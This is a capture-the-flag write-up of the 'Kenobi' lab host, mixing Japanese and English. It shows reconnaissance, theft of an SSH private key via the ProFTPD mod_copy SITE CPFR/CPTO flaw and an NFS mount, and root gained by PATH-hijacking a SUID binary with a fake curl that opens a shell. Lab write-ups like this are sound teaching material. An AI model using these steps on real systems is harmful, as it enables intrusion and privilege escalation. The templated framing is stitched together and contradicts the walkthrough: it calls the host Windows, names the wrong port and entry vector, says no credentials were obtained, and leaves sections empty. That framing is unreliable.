

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | 21/tcp    open  ftp, 22/tcp    open  ssh, 80/tcp    open  http, 111/tcp   open  rpcbind, 111/tcp   rpcbind
|, 2049/tcp   nfs
| |
| Primary Entry Vector      | smb-enumeration, upload-abuse |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)

```

## Nmap
```
nmap -p- -sC -sV -T4 $ip
```

```
┌──(n0z0㉿galatea)-[~]
└─$ nmap -p- -sC -sV -T4 $ip
Starting Nmap 7.94 ( https://nmap.org ) at 2024-09-09 00:21 JST
Nmap scan report for 10.10.210.217
Host is up (0.28s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         ProFTPD 1.3.5
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp    open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      43884/udp6  mountd
|   100005  1,2,3      44771/tcp   mountd
|   100005  1,2,3      55522/udp   mountd
|   100005  1,2,3      60319/tcp6  mountd
|   100021  1,3,4      38913/tcp   nlockmgr
|   100021  1,3,4      39856/udp   nlockmgr
|   100021  1,3,4      44521/tcp6  nlockmgr
|   100021  1,3,4      46638/udp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs         2-4 (RPC #100003)
38913/tcp open  nlockmgr    1-4 (RPC #100021)
44771/tcp open  mountd      1-3 (RPC #100005)
48085/tcp open  mountd      1-3 (RPC #100005)
51251/tcp open  mountd      1-3 (RPC #100005)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-08T15:38:49
|_  start_date: N/A
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2024-09-08T10:38:49-05:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1024.50 seconds
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

OSCPライク

nmap実行

```
┌──(n0z0㉿galatea)-[~]
└─$ nmap -p- -sC -sV -T4 $ip
Starting Nmap 7.94 ( https://nmap.org ) at 2024-09-09 00:21 JST
Nmap scan report for 10.10.210.217
Host is up (0.28s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         ProFTPD 1.3.5
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp    open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      43884/udp6  mountd
|   100005  1,2,3      44771/tcp   mountd
|   100005  1,2,3      55522/udp   mountd
|   100005  1,2,3      60319/tcp6  mountd
|   100021  1,3,4      38913/tcp   nlockmgr
|   100021  1,3,4      39856/udp   nlockmgr
|   100021  1,3,4      44521/tcp6  nlockmgr
|   100021  1,3,4      46638/udp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs         2-4 (RPC #100003)
38913/tcp open  nlockmgr    1-4 (RPC #100021)
44771/tcp open  mountd      1-3 (RPC #100005)
48085/tcp open  mountd      1-3 (RPC #100005)
51251/tcp open  mountd      1-3 (RPC #100005)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-08T15:38:49
|_  start_date: N/A
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2024-09-08T10:38:49-05:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1024.50 seconds

```

smbが繋がるから繋いでみる

log.txtがあったからダウンロードしてみる

```
┌──(n0z0㉿galatea)-[~/work/thm/kenobi]
└─$ smbclient //$ip/anonymous -N 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Sep  4 19:49:09 2019
  ..                                  D        0  Wed Sep  4 19:56:07 2019
  log.txt                             N    12237  Wed Sep  4 19:49:09 2019
smb: \> get log.txt
getting file \log.txt of size 12237 as log.txt (10.9 KiloBytes/sec) (average 10.9 KiloBytes/sec)
smb: \> cd ..
smb: \> dir
  .                                   D        0  Wed Sep  4 19:49:09 2019
  ..                                  D        0  Wed Sep  4 19:56:07 2019
  log.txt                             N    12237  Wed Sep  4 19:49:09 2019

                9204224 blocks of size 1024. 6840352 blocks available
```

中身見てみた

```
┌──(n0z0㉿galatea)-[~/work/thm/kenobi]
└─$ ls -la
Total 20
drwxrwxr-x 2 n0z0 n0z0 4096 Sep  9 00:48 .
drwxrwxr-x 3 n0z0 n0z0 4096 Sep  9 00:48 ..
-rw-r--r-- 1 n0z0 n0z0 12237 Sep  9 00:48 log.txt
                                                                                 
┌──(n0z0㉿galatea)-[~/work/thm/kenobi]
└─$ cat log.txt 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kenobi/.ssh/id_rsa): 
Created directory '/home/kenobi/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kenobi/.ssh/id_rsa.
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi
The key's randomart image is:
+---[RSA 2048]----+
|                 |
|           ..    |
|        . o. .   |
|       ..=o +.   |
|      . So.o++o. |
|  o ...+oo.Bo*o  |
| o o ..o.o+.@oo  |
|  . . . E .O+= . |
|     . .   oBo.  |
+----[SHA256]-----+

ServerName                      "ProFTPD Default Installation"
ServerType                      standalone
DefaultServer                   on

Port                            21

UseIPv6                         off

Umask                           022

MaxInstances                    30

User                            kenobi
Group                           kenobi

#DefaultRoot ~

AllowOverwrite          on

<Limit SITE_CHMOD>
  DenyAll
</Limit>

<Anonymous ~ftp>
  User                          ftp
  Group                         ftp

  # We want clients to be able to login with "anonymous" as well as "ftp"
  UserAlias                     anonymous ftp

  # Limit the maximum number of anonymous logins
  MaxClients                    10

  # We want 'welcome.msg' displayed at login, and '.message' displayed
  # in each newly chdired directory.
  DisplayLogin                  welcome.msg
  DisplayChdir                  .message

  # Limit WRITE everywhere in the anonymous chroot
  <Limit WRITE>
    DenyAll
  </Limit>
</Anonymous>
#
#
#
#
#

#======================= Global Settings =======================

[global]

## Browsing/Identification ###

   workgroup = WORKGROUP

        server string = %h server (Samba, Ubuntu)

;   wins server = w.x.y.z

   dns proxy = no

#### Networking ####

;   interfaces = 127.0.0.0/8 eth0

;   bind interfaces only = yes

#### Debugging/Accounting ####

   log file = /var/log/samba/log.%m

   max log size = 1000

   syslog = 0

   panic action = /usr/share/samba/panic-action %d

####### Authentication #######

#
   server role = standalone server

   passdb backend = tdbsam

   obey pam restrictions = yes

   unix password sync = yes

   passwd program = /usr/bin/passwd %u
   passwd chat = *Enter\snew\s*\spassword:* %n\n *Retype\snew\s*\spassword:* %n\n *password\supdated\ssuccessfully* .

   pam password change = yes

   map to guest = bad user

########## Domains ###########

#
#

;   logon path = \\%N\profiles\%U

;   logon drive = H:

;   logon script = logon.cmd

; add user script = /usr/sbin/adduser --quiet --disabled-password --gecos "" %u

; add machine script  = /usr/sbin/useradd -g machines -c "%u machine account" -d /var/lib/samba -s /bin/false %u

; add group script = /usr/sbin/addgroup --force-badname %g

############ Misc ############

;   include = /home/samba/etc/smb.conf.%m

;   idmap uid = 10000-20000
;   idmap gid = 10000-20000
;   template shell = /bin/bash

;   usershare max shares = 100

   usershare allow guests = yes

#======================= Share Definitions =======================

;[homes]
;   comment = Home Directories
;   browseable = no

;   read only = yes

;   create mask = 0700

;   directory mask = 0700

;   valid users = %S

;[netlogon]
;   comment = Network Logon Service
;   path = /home/samba/netlogon
;   guest ok = yes
;   read only = yes

;[profiles]
;   comment = Users profiles
;   path = /home/samba/profiles
;   guest ok = no
;   browseable = no
;   create mask = 0600
;   directory mask = 0700

[printers]
   comment = All Printers
   browseable = no
   path = /var/spool/samba
   printable = yes
   guest ok = no
   read only = yes
   create mask = 0700

[print$]
   comment = Printer Drivers
   path = /var/lib/samba/printers
   browseable = yes
   read only = yes
   guest ok = no
;   write list = root, @lpadmin
[anonymous]
   path = /home/kenobi/share
   browseable = yes
   read only = yes
   guest ok = yes

```

ポート番号111は**SITE CPFR** and **SITE CPTO**の脆弱性を使える

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-17 23:32 JST
Nmap scan report for 10.10.144.62
Host is up (0.27s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount:
|_  /var *

Nmap done: 1 IP address (1 host up) scanned in 16.89 seconds
```

脆弱性の情報があることを確認する

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ searchsploit proftpd 1.3.5
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)           | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                 | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)             | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                           | linux/remote/36742.txt
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

まず接続する

cpfrコマンドでコピー元を指定して、

cptoでコピー先をを指定してコピーを実行する

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ nc $ip 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.144.62]
site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
site cpto /var/tmp/id_rsa
250 Copy successful
421 Login timeout (300 seconds): closing control connection
```

マウントポイントがあるので、マウントして、コピー先を見てみて

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/work/thm/kenobi]
└─$ showmount -e $ip
Export list for 10.10.153.143:
/var *
```

マウントする

```
sudo mount -t nfs $ip:/var /mnt
```

秘密鍵コピーしておいて、sshで繋ぐとuser.txtがある

```
cp /mnt/kenobiNFS/tmp/id_rsa .
```

```
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

menuがなんか使えそう

```
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
```

1はcurlを実行しそうだから手元でcurlファイルを作成してシェルを起動するよう設定しつつ、
curlを実行するときは/usr/bin/curlではなく、さっき作成した/tmp/curlを使うよう環境変数を設定する

```
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu
```

まとめ

この一連のコマンドは、**システム上のバイナリの脆弱性を悪用して権限昇格**を試みています。具体的には、`/usr/bin/menu` というプログラムが `curl` コマンドを内部で実行する際、その動作を悪意のあるシェル (`/bin/sh`) に置き換え、root 権限を取得しようとしています。

### ステップごとの解説

1. **`echo /bin/sh > curl`**:
    - このコマンドは、`/tmp` ディレクトリにある `curl` というファイルを作成し、その中に `/bin/sh` というコマンドを書き込んでいます。
    - `curl` コマンドが実行されると、このファイルの内容である `/bin/sh`（UNIXのシェル）が実行されることになります。
2. **`chmod 777 curl`**:
    - 先ほど作成した `curl` ファイルに、すべてのユーザー（読み取り、書き込み、実行）権限を付与しています。この操作により、どのユーザーでもこのファイルを実行できるようになります。
3. **`export PATH=/tmp:$PATH`**:
    - 環境変数 `PATH` に `/tmp` を追加して、システムがコマンドを実行する際に `/tmp` ディレクトリを最優先で検索するようにしています。
    - これにより、システムが通常の `/usr/bin/curl` ではなく、`/tmp/curl` を実行するようになります。`/tmp/curl` は実際には `curl` ではなく、シェル `/bin/sh` を起動するように変更されています。
4. **`/usr/bin/menu`**:
    - `/usr/bin/menu` プログラムを実行しています。このプログラムが内部で `curl` コマンドを呼び出す際、`/tmp` ディレクトリ内にある `curl` が実行されるため、実際には `/bin/sh`（シェル）が起動します。
    - もし `menu` プログラムが `root` 権限で動作していた場合、このシェルは `root` 権限で実行され、結果として攻撃者は `root` シェルを得ることができます。

### 何が起こっているのか？

この操作は、**環境変数 `PATH` の変更を利用した権限昇格攻撃**です。特定のプログラムが内部でコマンド（この場合は `curl`）を実行するときに、正規の `curl` を呼び出すのではなく、攻撃者が意図的に作成した偽の `curl`（実際には `/bin/sh` を実行）を呼び出すように仕向けています。

- `menu` プログラムが `curl` コマンドを呼び出す際、`/tmp/curl` が優先的に実行され、攻撃者がシステム上でシェルを取得します。
- もし `menu` プログラムが `root` 権限で動作している場合、シェルも `root` 権限で実行され、システム全体の制御が可能になります。
```

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

This command is executed during privilege escalation to validate local misconfigurations and escalation paths. We are looking for delegated execution rights, writable sensitive paths, or credential artifacts. Any positive result is immediately chained into a higher-privilege execution attempt.
```bash
sudo mount -t nfs $ip:/var /mnt
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- metasploit
- nc
- sudo
- ssh
- curl
- cat
- find
- GTFOBins
